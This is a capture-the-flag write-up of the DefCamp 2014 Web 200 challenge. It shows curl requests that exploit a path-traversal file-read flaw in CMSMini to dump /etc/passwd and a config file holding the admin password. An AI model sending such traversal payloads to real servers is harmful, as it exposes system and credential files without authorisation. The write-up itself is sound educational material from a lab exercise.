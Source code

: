 ```yaml
---
layout: post
title: "DefCamp 2014 Web 200"
date: 2014-10-23 14:30:59 -0400
author: [barrebas, swappage, superkojiman]
comments: true
categories: [defcamp]
---
```


### Solved by barrebas, Swappage, and superkojiman

superkojiman here. Navigating to the provided IP address 10.13.37.12 on a web browser displayed an image of a rose with the text. barrebas did the inital enumeration and found a /cms/admin directory containing a login form

![](/images/2014/defcamp/web200/01.png)

After looking through the source code, we realized it was running CMSMini. Swappage found an exploit at [http://www.exploit-db.com/exploits/28128/](http://www.exploit-db.com/exploits/28128/) that allowed us to read local files on the server. Eg:

```
curl "http://10.13.37.12/cms/admin/edit.php?path=&name=../../../../../../etc/passwd"
.
.
.
<body>

<table>
  <tr>
    <td>
      <fieldset>
        <legend>Edit page</legend>

      <div class="formHelp">Page body</div>

<form action="save.php?what=page&path=&p=../../../../../../etc/passwd" method="post">
<textarea name="content" id="content" cols="80" rows="25">
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:102:104:MySQL Server,,,:/nonexistent:/bin/false
</textarea>
<input type="submit" value="Save" />
</form>

</fieldset>
    </td>

    <td>
      <fieldset>
.
.
.
```

To get a better idea of what interesting files I could read, I downloaded a copy of cmsmini-0.2.2 and found a file called config.php. I was able to use the local file inclusion vulnerability to get the contents of the file which had the admin login and password:

```
curl "http://10.13.37.12/cms/admin/edit.php?path=&name=../../../../../../var/www/cms/admin/config.php"
.
.
.
$admin_login = 'admin';
$admin_pass = 'RosesmaysayIloveyoubutthecactussaysFuckoff';
```

The admin_pass turned out to be the flag.
